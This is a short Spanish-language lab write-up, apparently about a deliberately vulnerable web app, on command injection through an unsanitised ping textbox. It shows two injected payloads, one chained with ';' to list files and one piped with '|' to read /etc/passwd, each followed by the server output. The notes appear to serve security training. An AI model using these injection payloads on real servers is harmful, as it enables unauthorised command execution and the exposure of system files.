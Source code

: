 ![bruteforce](bruteforce.PNG)

## Inyección de comandos

Hacer una inyección de comandos mediante un textbox que ejecuta comandos en la consola del servidor y dicho comando no ha sido sanitizado antes de ejecutarse es bastante sencillo

Podemos escapar el comando que hace ping a la IP que asignemos con `;`, haciendo que se ejecuten en serie los comandos.

```
1.1.1.1; ls
```
```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=64 time=8.21 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=64 time=4.15 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=64 time=5.00 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3006ms
rtt min/avg/max/mdev = 4.154/5.785/8.207/1.746 ms
help
index.php
source
```
O también podemos escaparlo "pipeándolo" con `|` 
```
1.1.1.1 | cat /etc/passwd
```
```
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```